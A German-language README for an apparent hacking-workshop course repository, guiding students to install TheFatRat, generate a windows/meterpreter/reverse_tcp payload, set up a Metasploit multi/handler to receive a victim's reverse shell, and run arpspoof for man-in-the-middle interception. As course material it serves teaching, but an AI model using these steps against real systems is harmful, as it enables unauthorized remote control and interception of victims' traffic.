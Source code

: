 # VHS Hacking Workshop Tools
Official Repo of the Hacking Course at VHS by Benjamin Koltermann

## Download der Dateien
Zum Download der Dateien folges Kommando in das Kali Linux Terminal eingeben oder kopieren:
```
git clone https://github.com/p4ck3t0/vhs_hacking_workshop.git
```
Nun sollte mit
```
ls
```
der Ordner vhs_hacking_workshop erschienen sein. Mit dem Kommando
```
cd vhs_hacking_workshop
```
wechselt man in diesen Ordner. Hier liegen nun alle Dateien, die wir im Lehrgang benutzt haben.

## Der TCP Ordner
Im Ordner TCP befinden sich die beiden C Programme TCP_client.c und TCP_listener.c welche wir mit dem Kommando
```
ls
```
sehen können. Der listener stellt den Server da und der Client den Client mit dem wir uns auf dem Server verbinden. Das heißt zuerst muss der Server gestartet werden. Hierzu müssen wir die Datei TCP_listener.c zuerst mit der richtigen IP-Adresse configurieren. Mit
```
nano TCP_listener.c
```
können wir die Datei TCP_listener.c bearbeiten und die IP-Adresse anpassen. Diese finden wir etwas weiter unten in der Datei. Speichern können wir indem wir <STR + x> drücken. Anschließend müssen wir die TCP_listener.c Datei noch Compilieren (Ausführbar machen). Hierfür benutzten wir den GNU Compiler mit dem Kommando
```
gcc TCP_listener.c -o Server
```
Jetzt sollte mit ls eine Datei mit dem Namen Server in dem Ordner vorhanden sein. diese können wir mit
```
./Server
```
starten. Anschließend müssen wir den Client noch konfigurieren. Hierzu müssen wir die obigen Schritte wiederholen, und den listener in client ändern.

## Der Exploit_tool Ordner
Im Ordner Exploit_tool befindet sich die Instalationsdatei install_fatrat.sh. Diese Datei dient dazu das Exploit Tool zu Instalieren. Zuerst mussen wir die Datei install_fatrat.sh ausführbar machen. Das Kommando lautet
```
chmod +x install_fatrat.sh
```
Hiernach sollte mit
```
ls
```
eine grüne Datei install_fatrat.sh zu sehen sein. Diese können wir mit dem Befehl
```
./install_fatrat.sh
```
starten. Nun läuft die Instalation. Während der instalation kann es sein, dass noch ein paar Tasten gedrückt werden müssen. Dazu
lesen wir das, was das Terminal uns ausgibt.Hier müssen Sie leider selber entscheiden. Sollten Fehler auftreten, dann ist Google der beste Freund oder die Whatsapp Gruppe oder Die Issues Section von diesem Github Projekt. Nach erfolreicher instalation müssen wir in den neuen Ordner wechslen
```
cd TheFatRat
```
Anschließend können wir mit
```
./fatrat
```
Unser Exploit-Tool starten. Das weitere Vorgehen steht in der Facharbeit. Die von uns genutzte Zahlenkombination lautete:
* 6
* 2
* Dann nur noch die IP des Angreifers, Port, Name und die Payload (windows/meterpreter/reverse_tcp)
### Metasploit-Framework
Um die Verbindung vom opfer zu zulassen, müssen wir noch metasploit starten mit dem Befehl
```
msfconsole
```
Nach einiger ladezeit können wir nun Metasploit benutzten. Zuerst wollen wir den Handler benutzten. Dafür geben wir
```
use multi/handler
```
ein. Anschließend setzten wir mit
```
set LHOST IP-ADDR
```
und
```
set LPORT PORTNR
```
Die IP und den Port. Hier wählen wie die gleiche IP und Port wie im vorherigen Schritt in der Genereierung des Exploits. Zum Schluss setzten wir noch die Payload mit
```
set payload windows/meterpreter/reverse_tcp
```
Zum Schluss warten wir bis das Opfer sich zu uns verbindet. Das machen wir mit
```
exploit
```
Jetzt muss der Exploit auf dem System des Opfer gestartet werden.

## Wichtige Kommandos
* cd - in ein Verzeichnis wechslen
* nano - Datei bearbeiten/erstellen
* ls - Dateien im aktuellen Ordner auflisten
* mkdir - Verzeichnis erstellen
* ./Dateiname - Datei starten
* ip addr - IP-Configuration einsehen
* wireshark - wireshark starten
* arpspoof -t Client-IP Gateway-IP
* arpspoof -t Gateway-IP Client-IP
